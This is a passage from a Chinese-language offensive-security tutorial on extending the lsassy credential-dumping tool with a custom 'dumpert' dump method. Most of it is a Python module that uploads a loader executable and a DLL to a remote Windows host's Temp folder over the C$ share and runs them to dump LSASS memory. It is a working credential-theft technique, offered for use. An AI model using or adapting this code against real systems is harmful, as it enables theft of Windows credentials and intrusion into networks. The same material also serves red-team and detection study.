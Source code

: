 编译代码生成文件dumpert.dll

经过以上操作，得到文件rpcloader.exe和dumpert.dll，作为二次开发的准备

## 0x03 二次开发的细节
---

### 1.添加一个需要指定文件路径的dump方法

格式参考：https://github.com/Hackndo/lsassy/blob/master/lsassy/dumpmethod/dummy.py.tpl

根据参考格式写出模块代码，我这里额外做了一些标记，细节如下：

```
from lsassy.dumpmethod import IDumpMethod, Dependency

class DumpMethod(IDumpMethod):
    custom_dump_path_support = False
    custom_dump_name_support = False

    dump_name = "dumpert.dmp" 								//进程dump文件保存的文件名
    dump_share = "C$"										//进程dump文件保存的磁盘
    dump_path = "\\Windows\\Temp\\"							//进程dump文件保存的路径

    def __init__(self, session, timeout):
        super().__init__(session, timeout)
        self.loader = Dependency("rpcloader", "rpc.exe") 	//rpcloader为命令行使用的参数名，rpc.exe为上传文件保存的文件名
        self.dll = Dependency("dll", "rpc.dll")				//dll为命令行使用的参数名，rpc.dll为上传文件保存的文件名

    def prepare(self, options):
        return self.prepare_dependencies(options, [self.loader, self.dll])  //确认命令行参数是否正确

    def clean(self):
        self.clean_dependencies([self.loader, self.dll]) 					//清除上传的文件

    def get_commands(self, dump_path=None, dump_name=None, no_powershell=False):
        cmd_command = """{} {}""".format(
            self.loader.get_remote_path(),self.dll.get_remote_path()		//执行的命令：c:\windows\temp\rpc.exe c:\windows\temp\rpc.dll
        )
        pwsh_command = """{} {}""".format(
            self.loader.get_remote_path(),self.dll.get_remote_path()
        )
        return {
            "cmd": cmd_command,
            "pwsh": pwsh_command
        }
```

将以上代码保存至`<python>\Lib\site-packages\lsassy\dumpmethod\rawrpc.py`

**注：**
